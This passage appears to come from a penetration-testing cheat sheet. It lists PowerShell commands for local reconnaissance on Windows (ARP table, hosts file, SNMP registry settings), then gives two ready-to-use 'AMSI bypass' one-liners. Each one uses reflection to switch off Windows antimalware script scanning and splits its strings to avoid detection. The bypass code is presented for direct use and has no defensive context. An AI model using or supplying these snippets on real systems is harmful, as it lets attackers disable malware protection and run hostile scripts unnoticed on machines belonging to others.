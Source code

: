 ### ARP

```text
Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State
```

### Hosts

```text
Get-Content C:\WINDOWS\System32\drivers\etc\hosts
```

### SNMP

```text
Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse
```

## AMSI bypass

```text
(old) 
[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)

(new)
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$field.SetValue($null,$true)
```


